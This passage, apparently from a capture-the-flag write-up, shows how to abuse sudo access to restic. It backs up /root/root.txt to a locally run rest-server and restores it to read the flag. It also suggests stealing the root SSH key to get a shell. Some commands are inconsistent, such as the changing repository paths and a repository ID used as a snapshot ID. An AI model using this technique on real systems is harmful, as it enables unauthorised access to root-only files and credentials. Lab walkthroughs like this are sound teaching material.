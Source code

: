 Let's initialize a new Restic repository, I used `p4ssw0rd` as password:
```
bolt@bolt:/tmp$ restic init -d data
enter a password for new repository:
enter a password again:
created restic repository e22c3e433b at data

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.
```

Now let't run the rest server:
```
bolt@bolt:/tmp$ ./rest-server
```

And let's exfiltrate the root flag:
```
www-data@bolt:/tmp$ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/data /root/root.txt
enter password for repository: p4ssw0rd

password is correct
scan [/root/root.txt]
scanned 0 directories, 1 files in 0:00
[0:00] 100.00%  33B / 33B  1 / 1 items  0 errors   ETA 0:00
duration 0:00
snapshot a082fd1b saved
```

And now we can recover the file:
```
bolt@bolt:/tmp$ restic -r rest:http://127.0.0.1:8000/repo restore e22c3e433b --target /tmp/restore/
```

And here's our flag!
```
bolt@bolt:/tmp/restore$ wc -c root.txt
33 root.txt
```

Another thing that we could have done is to exfiltrate the root ssh key in order
to gain a shell and not only exfiltrate files.

Thanks for reading!
